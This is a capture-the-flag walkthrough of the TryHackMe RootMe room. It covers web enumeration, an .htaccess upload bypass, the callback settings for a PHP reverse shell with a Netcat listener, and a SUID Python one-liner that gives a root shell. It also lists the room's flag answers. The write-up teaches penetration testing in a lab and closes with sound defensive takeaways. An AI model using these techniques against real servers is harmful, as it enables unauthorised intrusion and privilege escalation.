










# TryHackMe — RootMe

A practical walkthrough of the **RootMe** room, covering web enumeration, an upload-filter bypass, a reverse shell, and privilege escalation through a misconfigured SUID Python interpreter.

> **Scope:** This write-up documents my own path and the commands visible in my screenshots. Run these steps only against the TryHackMe target assigned to your account or another system you are authorized to test.

## Contents

1. [Add the target hostname](#1-add-the-target-hostname)
2. [Nmap scan](#2-nmap-scan)
3. [Manual website enumeration](#3-manual-website-enumeration)
4. [Gobuster directory enumeration](#4-gobuster-directory-enumeration)
5. [Inspect the upload panel](#5-inspect-the-upload-panel)
6. [Understand the upload bypass](#6-understand-the-upload-bypass)
7. [Prepare and upload the reverse shell](#7-prepare-and-upload-the-reverse-shell)
8. [Catch the reverse shell](#8-catch-the-reverse-shell)
9. [Find the user flag](#9-find-the-user-flag)
10. [Enumerate SUID binaries](#10-enumerate-suid-binaries)
11. [Escalate privileges with SUID Python](#11-escalate-privileges-with-suid-python)
12. [Quick command reference](#12-quick-command-reference)
13. [Comparison with public write-ups and corrections](#13-comparison-with-public-write-ups-and-corrections)
14. [Tools used](#14-tools-used)
15. [Key takeaways](#15-key-takeaways)

## 1. Add the target hostname

I first mapped the target IP to `root-me.thm` in `/etc/hosts`. This lets me use the hostname instead of typing the current target IP in every request. The IP assigned by TryHackMe can change when a machine is restarted, so use the IP shown in your own deployment.

Edit the hosts file as root:

```bash
sudo nano /etc/hosts
```

Add a line in this format:

```text
<TARGET_IP> root-me.thm
```

Save the file, then open `http://root-me.thm/` in the browser.



## 2. Nmap scan

I scanned the target with Nmap's default scripts and version detection:

```bash
nmap -sC -sV root-me.thm -o nmap_scan.txt
```

The scan identified two open TCP ports:

| Port | Service | Finding |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 on Ubuntu |
| 80/tcp | HTTP | Apache httpd 2.4.41 on Ubuntu |

Nmap also reported that the `PHPSESSID` cookie did not have the `HttpOnly` flag set. I noted this, but it was not the route I used to obtain access.

Full scan output is included in [`nmap_scan.txt`](nmap_scan.txt).



## 3. Manual website enumeration

I started with the website on port 80. The homepage was very simple and did not expose an obvious interactive feature. I checked the page source as well, but did not find anything useful there. The page text appeared to be Portuguese, which was a useful observation but not a vulnerability by itself.

At this point, I moved from manual browsing to directory enumeration rather than assuming that the visible homepage represented the whole application.

## 4. Gobuster directory enumeration

I ran Gobuster against the web root with the wordlist and extensions shown in my terminal screenshot:

```bash
gobuster dir -u http://root-me.thm/ -w big.txt -x php,json,js,txt,html,php.php,bak --no-error
```

The scan found several paths, including:

| Path | Result | Why it mattered |
|---|---|---|
| `/panel/` | Redirect (301) | Upload form; this became the initial-access route. |
| `/uploads/` | Redirect (301) | Public directory where uploaded files could be accessed. |
| `/index.php` | HTTP 200 | Main page. |
| `/css/`, `/js/` | Redirect (301) | Static assets. |
| `/server-status` | HTTP 403 | Access denied. |

The important discovery was the combination of `/panel/` and `/uploads/`: one allowed files to be submitted, while the other exposed uploaded files.



## 5. Inspect the upload panel

I opened `http://root-me.thm/panel/` and found a file-upload form. The form's success message was in Portuguese; the response included a link to the uploaded file under `/uploads/`.



My first attempts included Bash reverse-shell files. They were uploaded or displayed as text rather than executed by the server. That suggested I needed a server-side script that Apache would interpret as PHP, and an extension/configuration path that the upload filter would accept.

## 6. Understand the upload bypass

I first tried the PentestMonkey PHP reverse shell with a `.php` extension. The application rejected PHP files. Researching the behavior led me to an alternative approach: rather than relying only on a different PHP extension such as `.phtml`, I uploaded an `.htaccess` file that associated a custom extension with PHP.

The exact `.htaccess` directive in my screenshot was:

```apache
AddType application/x-httpd-php .cybersec
```

This tells Apache to handle files ending in `.cybersec` as PHP **when this directory's Apache configuration permits the `.htaccess` directive**. The screenshot shows the file was uploaded to `/uploads/.htaccess` successfully.



**Important correction to my initial summary:** my screenshots show the successful route used `.htaccess` plus the custom `.cybersec` extension. They do **not** show a successful `.phtml` upload. Public walkthroughs commonly use `.phtml` or `.php5`; those are alternative routes, not the exact route recorded here.

## 7. Prepare and upload the reverse shell

I used a PHP reverse-shell payload saved as `exploit.cybersec`. The payload itself is not included in this repository; the upload request screenshot shows the filename used in the exercise.

Before uploading, the reverse shell's callback IP and port must match the attacking machine and listener. In my captured file, these values were:

```php
$ip = '192.168.131.1';
$port = 4444;
```

Use your own reachable TryHackMe VPN/interface IP rather than copying this IP blindly. The address shown here was the one in my lab screenshot and may not work in another session.

I then uploaded the file through `/panel/`. The response linked to:

```text
http://root-me.thm/uploads/exploit.cybersec
```



## 8. Catch the reverse shell

I started a Netcat listener on port 4444:

```bash
nc -lvnp 4444
```

With the listener running, I opened the uploaded file at `http://root-me.thm/uploads/exploit.cybersec`. Apache interpreted the custom extension as PHP and the reverse connection arrived. The shell ran as `www-data` (UID 33), which is the web-server account—not root.



The listener output confirmed the target connected back from the machine at `10.48.162.71` and showed:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 9. Find the user flag

From the reverse shell, I searched the filesystem for `user.txt`:

```bash
find / -type f -name user.txt 2>/dev/null
```

The file was located at `/var/www/user.txt`. I read it with:

```bash
cat /var/www/user.txt
```

The screenshot records the user flag as:

```text
THM{y0u_g0t_a_sh3ll}
```



## 10. Enumerate SUID binaries

The next room task asked for privilege escalation using a suspicious SUID binary. I searched for files with the SUID bit set:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Among the results, `/usr/bin/python2.7` stood out. A root-owned Python interpreter with SUID set is dangerous because it can execute arbitrary Python code with the file owner's effective privileges.



## 11. Escalate privileges with SUID Python

I researched the SUID Python technique and used the following command from the shell:

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

The `os.execl()` call replaces the Python process with `/bin/sh`. The `-p` option asks the shell to preserve its effective UID rather than dropping it. Because the Python interpreter was SUID-root, this provided a shell with effective root privileges.

I verified the result with:

```bash
whoami
```

The output was `root`. I then checked `/root` and read the root flag:

```bash
cd /root && ls
cat root.txt
```

The screenshot records the root flag as:

```text
THM{privil3g3_3sc414t10n}
```



## 12. Quick command reference

Commands recorded in my screenshots, gathered in one place:

```bash
# Add the target hostname
sudo nano /etc/hosts

# Scan the target and save the output
nmap -sC -sV root-me.thm -o nmap_scan.txt

# Enumerate web directories and common extensions
gobuster dir -u http://root-me.thm/ -w big.txt -x php,json,js,txt,html,php.php,bak --no-error

# Start the reverse-shell listener
nc -lvnp 4444

# Locate and read the user flag
find / -type f -name user.txt 2>/dev/null
cat /var/www/user.txt

# Find SUID files
find / -perm -u=s -type f 2>/dev/null

# Use the SUID Python interpreter to spawn a shell that preserves effective UID
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# Verify root and read the root flag
whoami
cd /root && ls
cat root.txt
```

The `.htaccess` configuration uploaded through the form was:

```apache
AddType application/x-httpd-php .cybersec
```

## 13. Comparison with public write-ups and corrections

I compared my route with public RootMe write-ups, including the common `.phtml`/`.php5` upload bypass and SUID Python escalation.

| Topic | My screenshots | Common public walkthroughs | Correction / note |
|---|---|---|---|
| Enumeration | `nmap -sC -sV` found ports 22 and 80; Gobuster found `/panel/` and `/uploads/`. | Most write-ups find the same services and paths, though some use a full-port scan or a different wordlist. | My scan is valid for the observed result, but it is not a full 65,535-port scan. A full-port scan could identify services outside Nmap's default top ports. |
| Upload bypass | Uploaded `.htaccess` containing `AddType application/x-httpd-php .cybersec`, then uploaded `exploit.cybersec`. | Many write-ups rename the shell to `.phtml` or `.php5`. | Do not describe `.phtml` as the method I successfully used. The screenshots specifically document the `.htaccess` + `.cybersec` method. Both methods depend on server configuration and filtering behavior. |
| Reverse shell | Netcat listener on 4444; shell as `www-data`. | Same general foothold and account. Some guides stabilize the shell with a PTY. | My screenshots do not show a PTY upgrade, so I have not claimed one. A raw shell may have limited terminal functionality. |
| User flag | Found `/var/www/user.txt` with `find`. | Same path in the sources reviewed. | The command and path are consistent with public write-ups. |
| Privilege escalation | Found `/usr/bin/python2.7` in SUID output and used `os.execl(..., "-p")`. | Public write-ups use the same SUID Python technique. | The key detail is that the interpreter must actually have SUID set and be executable. `whoami` showing `root` is useful confirmation; `id` can also distinguish real UID from effective UID. |
| Flag value | Screenshots show the user and root flag strings listed above. | Public examples may display different strings because flags are instance-specific or because write-ups use placeholders. | Use the flags from your own deployed target; do not copy flag strings from another person's walkthrough. |

Public references checked:

- [Farhansec — RootMe write-up](https://github.com/farhansec/CTF-Writeups/blob/main/TryHackme/rootme_writeup.md) — includes `.phtml`, `www-data`, and SUID Python.
- [HackIndex — RootMe write-up](https://hackindex.io/writeups/rootme) — documents the upload panel and Python SUID escalation.
- [GTFOBins — Python SUID](https://gtfobins.github.io/gtfobins/python/#suid) — reference for the SUID technique.

## 14. Tools used

- **Nmap** — service and version enumeration.
- **Gobuster** — web directory and extension enumeration.
- **Web browser** — manual inspection and triggering the uploaded file.
- **Netcat** — receiving the reverse shell.
- **Linux `find`, `cat`, and `whoami`** — locating flags, finding SUID files, and verifying privileges.
- **PentestMonkey PHP reverse shell** — initial shell payload.
- **GTFOBins / online research** — understanding the SUID Python escalation path.

## 15. Key takeaways

- A plain homepage does not mean the web application has no useful endpoints. Directory enumeration can reveal functionality that is not linked from the home page.
- A file-upload feature combined with a publicly accessible upload directory deserves careful testing.
- Blocking only `.php` is not a robust upload defense. Safer designs use a strict allowlist, validate file content, store uploads outside the web root, and disable script execution in upload directories.
- `.htaccess` can change how Apache handles files when the server permits relevant overrides. Uploading configuration files should be prevented where they are not needed.
- Always enumerate SUID binaries after obtaining a low-privilege shell. Interpreters such as Python should not ordinarily be SUID-root.
- Verify each stage: confirm the reverse shell's user, identify the unusual SUID binary, and verify the resulting privileges before reading the final flag.

**RootMe completed — Hack | Learn | Secure.**
